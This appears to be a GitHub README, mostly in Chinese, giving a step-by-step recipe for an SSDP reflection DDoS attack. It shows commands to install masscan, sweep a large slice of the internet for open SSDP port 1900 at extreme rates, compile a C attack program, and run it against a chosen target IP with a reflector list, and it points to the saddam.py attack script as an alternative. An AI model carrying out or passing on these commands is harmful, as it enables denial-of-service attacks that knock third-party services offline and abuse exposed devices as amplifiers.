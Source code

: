 # Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装 Git
	yum install git

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make
	cd bin

### 扫描 Server
	# 最高速扫描 SSDP 端口保存为 JSON
	./masscan 0.0.0.0/4 -p1900 --rate 100000000 -oJ ip.json
	# 转换格式为单 IP 的 TXT
	python format.py ip.json ip.txt

### 攻击 SSDP
	# 安装 C 编译环境
	yum -y install gcc
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>
	
> 攻击或使用功能更全的 saddam.py 攻击脚本

